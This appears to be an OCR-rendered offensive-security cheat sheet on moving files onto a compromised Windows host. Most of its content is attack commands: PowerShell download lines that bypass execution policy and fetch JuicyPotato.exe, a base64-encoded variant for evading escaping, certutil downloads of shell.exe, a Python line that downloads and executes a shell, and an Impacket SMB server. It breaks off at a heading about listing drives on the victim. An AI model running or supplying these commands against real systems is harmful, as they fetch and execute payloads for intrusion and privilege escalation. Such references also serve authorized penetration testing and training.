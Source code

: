 # File Transfer

## Powershell

Powershell

As Cmd.exe Command

```
powershell -ExecutionPolicy bypass -noprofile -c (New-Object System.Net.WebClient).DownloadFile('<http://192.168.0.1:80/winprivesc/JuicyPotato.exe','C:\\Users\\john\\Desktop\\juicy.exe>')

```

Encode Command for Transfer
Very helpful for chars that need to be escaped otherwise.

```
$Command = '(new-object System.Net.WebClient).DownloadFile("<http://192.168.0.1:80/ftp.txt","C:\\Windows\\temp\\ftp.txt>")'
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))
powershell.exe -NoProfile -encoded $Encoded

```

## Certutil

Certutil

Download

```
certutil.exe -urlcache -f <http://192.168.0.1/shell.exe> C:\\Windows\\Temp\\shell.exe

```

Download & Execute Python Command

```
os.execute('cmd.exe /c certutil.exe -urlcache -split -f <http://192.168.0.1/shell.exe> C:\\Windows\\Temp\\shell.exe & C:\\Windows\\Temp\\shell.exe')

```

## SMB

SMB

Start Impacket SMB Server (With SMB2 Support)

```
impacket-smbserver -smb2support server_name /var/www/html

```

List Drives (Execute on Victim)
